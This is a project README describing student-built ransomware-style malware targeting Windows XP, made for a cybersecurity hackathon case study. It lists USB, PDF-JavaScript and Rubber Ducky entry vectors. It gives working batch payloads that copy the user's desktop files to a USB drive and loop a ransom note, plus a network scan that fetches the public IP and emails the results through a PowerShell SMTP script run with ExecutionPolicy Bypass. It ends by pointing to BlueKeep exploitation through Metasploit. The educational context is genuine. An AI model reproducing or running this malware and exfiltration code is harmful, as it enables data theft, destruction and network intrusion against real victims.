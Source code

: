 # Man1f3zzt0

## Made by Ellioth Denzel Romero Martinez, Luis Daniel Filorio Luna, Miguel Soria, Omar Emiliano Sanchez Villegas, Sofia Moreno Lopez. 

This piece of malware was created for a pseudo hackathon that aimed to teach students interested in cybersecurity how malware compromised big industry systems, especially legacy systems. 
The challenge proposed a case study where a pharmaceutical company let 3 threat actors posed as students enter their headquarters, and through social engineering managed to enter a usb into an employees computer. They printed a pdf file that was downloaded into the computer and after they left the first computer started showing a ransom note and lost access to its files. 
After some minutes the same started happening in other branches near the main HQ and after an hour it managed to infect their whole system.

The challenge was proposing a recovery plan and figuring out how they propagated through the system and compromised it, in an effort to give the best and most plausible solution my team and I got into the shoes of the threat actors and designed a malware to attack a windows xp system, there was no information about what system they were using but they challenge specified it was at least 20 years old and to this day windows xp is widely used around the world.

![windows xp](./images/windows_xp.png)

In the recon phase of the development we found 3 potential entry vectors, a misconfiguration of .inf files entering a system, a rubber ducky posing as a mass storage device and adobe acrobat executing JavaScript code embedded in pdf files.

These 3 entry vectors had one goal, to execute a malicious batch file that would copy our main malware into the system and execute it. The malicious file would then wait for 15 minutes before executing so the threat actors could exit the building.

## FIrst entry vector .inf files in the root of a usb - semi successful 

When a .inf file is in the root directory of a usb, it can run files instantly when placed inside a windows xp machine.
This vector proved somehow successful in early versions of windows XP, especially before windows xp SP2. The reason this wasn't our entry vector is that most configurations of windows xp for large systems have a registry that prompts a user input when a .inf is detected in the root directory of a usb system.

![windows xp regitry gui](./images/registry_edit.png)
## Second entry vector Javascript code inside PDF - semi successful 

Most of the versions of Adobe Acrobat Reader that were built for Windows XP by default run JavaScript code embedded inside of any pdf file. 
Our first approach to this entry vector was successful, we managed to display an alert on the machine symply by opening the file on Adobe Acrobat and Windows Explorer.
![image showing pdf altert saying hola denzle](./images/JS_POC.jpeg)
This seemed like the best way to enter the system, but then when designing and testing a different payload that used the JS ActiveXObject constructor to call cmd commands, we got an error detailing that ActiveXObject was not declared in the system. 
![image showing error ActiveObjectX not defined](./images/active_objectx_not.jpeg)
With short time we tried using a different version of windows xp but the error kept happening, it wasn't solved even after letting adobe acrobat have every unsafe permission. 
With little time left we needed to change approaches.

## Third entry vector rubber ducky posing as mass storage device - ULTRA SUCCESSFUL

To this day this is one of the most efficient entry vectors, the only downside is you need physical access to the system you are trying to pawn and the case study told us the threat actors did, even though this was the most efficient approach we made it our last resource as we knew we could develop the script pretty easily. 

We used a HAK5 rubber ducky and payload studio pro to develop the simple chain of keystrokes that would run in the background as the pdf file was opened. 

![payload studio](./images/payload_studio.png)
This simple keystroke injection opened the doors to our payload. 


## Payload 

Our payload consisted of 3 batch files.  Each with its unique function. 

Our first batch file was made so we could run code even after unplugging the usb from the target machine. It copies our main caller into the desktop and executes it. 
We used system variables that got the username from the system and used it to define the PATH to the desktop, with this we didn't need to worry about knowing and hard coding the username.

```

xcopy "%~dp0\maincaller.bat" "%userprofile%\Desktop\" /Y
start "" "%userprofile%\Desktop\maincaller.bat"

```



The second batch file is a little more complex, firstly copies everything from the desktop into a file inside our usb.

```

@echo off
setlocal

:: Set variables
set USB_DRIVE=E:  :: Change this to the letter of your USB drive
set DESKTOP_DIR=%USERPROFILE%\Desktop
set DEST_DIR=%USB_DRIVE%\DesktopBackup
set FINAL_SCRIPT=%USB_DRIVE%\final_script.bat
set WAIT_TIME=60  :: Time to wait in seconds

:: Create destination directory on USB drive
if not exist %DEST_DIR% mkdir %DEST_DIR%

:: Copy Desktop contents to USB drive
xcopy "%DESKTOP_DIR%\*" "%DEST_DIR%\" /E /H /C /I

```

After this it will start a timeout to wait for the threat actors to leave the building
It will delete everything and start a cmd file that shows the ransom note.

```

ping -n 240 127.0.0.1
start cmd /c "main.bat"

:monitor

REM Delay for 2 seconds
ping -n 30 127.0.0.1 >nul

start cmd /c "man1f3zzt0.bat"

goto monitor

```

## Lateral movement 

The next part is only a prove of concept as we were running out of time. 
We will use the simple mail transfer protocol to send all of the local ips that are currently in use.

Firstly we ping all of the possible local ips using a CIDR of /24. 
If they respond we save it to a local variable and continue until finished.
After this we curl to http://ipinfo.io/ip, this will give us the public ip address of this network.

```

@echo off
setlocal

:: Set variables
set NETWORK_BASE=192.168.1.  :: Change this to your network base
set OUTPUT_FILE=%TEMP%\network_scan_results.txt
set PUBLIC_IP_FILE=%TEMP%\public_ip.txt
set EMAIL_TO=someone@example.com  :: Change this to the recipient's email address
set EMAIL_SUBJECT="Network Scan Results"
set SMTP_SERVER=smtp.example.com  :: Change this to your SMTP server
set SMTP_PORT=587                 :: Change this to your SMTP server port
set SMTP_USERNAME=your_email@example.com  :: Change this to your email
set SMTP_PASSWORD=your_password   :: Change this to your email password

:: Clear previous output files
if exist %OUTPUT_FILE% del %OUTPUT_FILE%
if exist %PUBLIC_IP_FILE% del %PUBLIC_IP_FILE%

:: Get public IP address
echo Retrieving public IP address...
curl -s http://ipinfo.io/ip > %PUBLIC_IP_FILE%

:: Scan the network
echo Scanning the network...
for /L %%i in (1,1,254) do (
    ping -n 1 -w 1000 %NETWORK_BASE%%%i | find "Reply from" >> %OUTPUT_FILE%
)

:: Append public IP to output file
echo Public IP Address: >> %OUTPUT_FILE%
type %PUBLIC_IP_FILE% >> %OUTPUT_FILE%

```


We package all of this and send it to a properly configured gmail address. 

```
:: Prepare PowerShell script to send email
set PS_SCRIPT=%TEMP%\send_email.ps1
echo $EmailFrom = "%SMTP_USERNAME%" > %PS_SCRIPT%
echo $EmailTo = "%EMAIL_TO%" >> %PS_SCRIPT%
echo $Subject = "%EMAIL_SUBJECT%" >> %PS_SCRIPT%
echo $Body = "Find the attached network scan results." >> %PS_SCRIPT%
echo $SMTPServer = "%SMTP_SERVER%" >> %PS_SCRIPT%
echo $SMTPPort = %SMTP_PORT% >> %PS_SCRIPT%
echo $SMTPUser = "%SMTP_USERNAME%" >> %PS_SCRIPT%
echo $SMTPPass = "%SMTP_PASSWORD%" >> %PS_SCRIPT%
echo $Attachment = "%OUTPUT_FILE%" >> %PS_SCRIPT%
echo $Message = New-Object System.Net.Mail.MailMessage $EmailFrom, $EmailTo, $Subject, $Body >> %PS_SCRIPT%
echo $SMTP = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort) >> %PS_SCRIPT%
echo $SMTP.EnableSsl = $true >> %PS_SCRIPT%
echo $SMTP.Credentials = New-Object System.Net.NetworkCredential($SMTPUser, $SMTPPass) >> %PS_SCRIPT%
echo $Message.Attachments.Add((New-Object System.Net.Mail.Attachment($Attachment))) >> %PS_SCRIPT%
echo $SMTP.Send($Message) >> %PS_SCRIPT%

:: Execute the PowerShell script
powershell -ExecutionPolicy Bypass -File %PS_SCRIPT%

:: Clean up
del %OUTPUT_FILE%
del %PUBLIC_IP_FILE%
del %PS_SCRIPT%
endlocal

```


With all this info we can use the msfconsole to exploit the [CVE-2019-0708](https://nvd.nist.gov/vuln/detail/cve-2019-0708)

![msf console on parrot vm](./images/bluekeep_msfconsole.png)

This vulnerability allows remote code execution and makes it extremely easy to propagate through the whole system.

All of this was made by my team and i in less than 20 hours, we learned a lot and are happy with the final product. 
